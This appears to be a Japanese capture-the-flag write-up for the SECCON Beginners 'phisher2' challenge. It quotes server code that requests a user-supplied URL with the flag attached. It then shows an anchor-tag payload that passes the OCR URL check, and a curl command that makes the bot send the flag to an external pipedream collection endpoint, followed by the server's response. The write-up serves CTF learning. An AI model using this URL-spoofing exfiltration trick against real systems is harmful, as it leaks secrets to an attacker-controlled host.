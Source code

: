 ```
    # If there's a URL in the text, I'd like to open it.
    ocr_url = find_url_in_text(ocr_text)
    input_url = find_url_in_text(input_text)

    # not to open dangerous url
    if not ocr_url.startswith(APP_URL):
        return "admin: It's not url or safe url.", ocr_url, input_text

    try:
        # It seems safe url, therefore let's open the web page.
        requests.get(f"{input_url}?flag={FLAG}")
    except Exception:
        return "admin: I could not open that inner link.", ocr_url, input_text
    return "admin: Very good web site. Thanks for sharing!", ocr_url, input_text
```

OCRで抽出したURLが環境変数から取得したURLで始まって入ればよいだけなので、aタグで表示だけ変えれば良い。  
4.でアクセスさせる先はRequestBinを使う。  
送るのはこれだけ。  

```
<a href=\"https://eo5qevb8wsh0csx.m.pipedream.net\">https://phisher2.beginners.seccon.games/foobar</a>
```
```
(⁎'~') < curl -X POST -H "Content-Type: application/json" -d '{"text":"<a href=\"https://eo5qevb8wsh0csx.m.pipedream.net\">https://phisher2.beginners.seccon.games/foobar</a>"}' https://phisher2.beginners.seccon.games
{"input_url":"<a href=\"https://eo5qevb8wsh0csx.m.pipedream.net\">https://phisher2.beginners.seccon.games/foobar</a>","message":"admin: Very good web site. Thanks for sharing!","ocr_url":"https://phisher2.beginners.seccon.games/foobar"}
```

RequestBin側を確認すると来てた。　　

<img src="./img/ctf4b_phisher2-1.png">



